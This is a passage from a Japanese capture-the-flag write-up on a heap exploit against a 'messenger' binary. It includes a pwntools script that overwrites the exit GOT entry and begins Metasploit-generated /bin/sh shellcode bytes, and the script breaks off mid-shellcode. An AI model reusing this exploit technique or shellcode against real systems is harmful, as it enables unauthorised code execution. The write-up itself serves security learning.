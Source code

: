 ![heap4](./heap4.svg)

あとは3つ目の chunk が作られる予定のアドレス辺りに shellcode が配置されるように1つ目のメッセージを再び変更する. すると `exit@plt()` が呼び出されたときに shellcode が実行されるようになる.

実際に作成したスクリプトと実行結果は次の通り.

```python
#!/usr/bin/env python2

from pwn import *

# $ objdump -M intel -j .plt -d messenger
# ...
# 0000000000400780 <exit@plt>:
#   400780:	ff 25 ea 18 20 00    	jmp    QWORD PTR [rip+0x2018ea]        # 602070 <exit@plt+0x2018f0>
#   400786:	68 0b 00 00 00       	push   0xb
#   40078b:	e9 30 ff ff ff       	jmp    4006c0 <puts@plt-0x10>
# ...
addr_exit_got = 0x602070

# msf > use payload/linux/x64/exec
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x80\x51\x84\x63\x84\x7a\x7b'
```

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.